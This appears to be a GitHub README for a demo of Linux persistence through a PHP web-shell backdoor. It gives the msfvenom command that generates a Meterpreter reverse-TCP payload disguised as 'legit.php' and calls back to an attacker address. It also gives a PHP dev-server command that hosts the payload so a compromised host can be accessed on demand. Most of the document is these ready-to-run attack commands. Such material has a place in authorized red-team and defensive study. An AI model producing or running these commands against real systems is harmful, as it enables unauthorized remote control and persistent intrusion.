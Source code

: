 # LINUX PERSISTENCE VIA WEB SHELL BACKDOOR

This demo illustrates the process of creating a PHP backdoor using msfvenom, setting up a web server to host the backdoor, and establishing persistence by triggering the backdoor on demand.  
This technique allows for remote access via Metasploit's Meterpreter session.  


## Instructions

Create the php backdoor with [*msfvenom*](https://www.offsec.com/metasploit-unleashed/msfvenom/):  
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR-ADDRESS> LPORT=4444 -f raw -o legit.php
```  

Spin up a php web dev server to expose the backdoor:  
```sh
php -S <YOUR-ADDRESS>:80
```  

Now you can trigger that backdoor "on-demand" and obtain a session on the compromised linux host.  
Follwoing is a brief video depicting the full process:  

